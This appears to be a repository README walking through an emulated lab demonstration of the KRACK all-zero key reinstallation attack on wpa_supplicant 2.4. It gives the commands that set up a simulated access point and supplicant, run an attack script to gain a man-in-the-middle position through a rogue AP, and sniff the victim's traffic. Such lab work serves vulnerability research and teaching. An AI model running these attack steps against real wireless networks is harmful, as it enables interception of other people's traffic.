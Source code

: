 # Proof Of Concept (Emulation with mac80211_hwsim)

## Assumptions
In this tutorial we assume that the machine is connected to the Internet via 2 interfaces, that here we call `eth0` and `eth1`. Furthermore, we also assume that, after loading the module `man80211_hwsim` with `N` radios, their respective virtual interfaces will be named `wlan0, wlan1, ..., wlan(N-1)` by the system.

We tested the simulation in a **Virtual Machine running Kali Linux, with two Network Adapters between it and the Host Machine using one single NAT Network with DHCP enabled**. 

NOTE: We had hard times trying the attack on other Distros.

## Initialise the Network Emulation

First, make sure that both interfaces `eth0` and `eth1` are available.

```bash
sudo ./init_network.sh eth1
```

```bash
sudo systemctl stop dnsmasq.service # Only if it is running
```

## Create and connect Supplicant and Authenticator
### Start the Access Point

```bash
sudo ip netns exec hostapd ./enable_internet_forwarding.sh eth1 wlan0
sudo ip netns exec hostapd dnsmasq -d -C dnsmasq.conf
```
Open a new Terminal session in this folder and run:

```bash
sudo su
source init_env_sup_ap
ip netns exec hostapd ./hostapd-2.4 hostapd.conf
```

### Start the Supplicant
Open a new Terminal session in this folder and run:
```bash
sudo su
source init_env_sup_ap
ip netns exec supplicant ./wpa_supplicant-2.4 -D nl80211 -i wlan1 -c supplicant.conf
```

### Test connection
Open a new Terminal session in this folder and run:
```bash
sudo ip netns exec hostapd ping krackattacks.com
sudo ip netns exec supplicant dhcpcd -n wlan1
sudo ip netns exec supplicant ping krackattacks.com
```
```bash
sudo ip netns exec supplicant iw dev
```

## Add MitM and perform the Attack
### Initialise Krackattack environment
Open a new Terminal session in `../krackattack-all-zero-tk-key/krackattack` and run:
```bash
sudo su
rfkill unblock wifi
source ../../poc-emulation/init_env_mitm
../../poc-emulation/enable_internet_forwarding.sh eth0 wlan3
pyenv shell 2.7.18
```

### Obtain MitM position and Reinstall Key
In the same session, while root, execute:
```bash
python ./krack_all_zero_tk.py wlan2 wlan3 eth0 "simulnet" -t <victim_mac_addr>
```
### Test connection
In a new session run some tests:
```bash
ping krackattacks.com
sudo ip netns exec supplicant ping krackattacks.com
sudo ip netns exec supplicant iw dev
```
### Sniff the traffic
Open Wireskark and sniff traffic on interface `wlan3` (the Interface of the Rougue AP).

### Check with patched `wpa_supplicant`


## De-initialise the Network Emulation
```bash
sudo ./clear.sh eth1
```
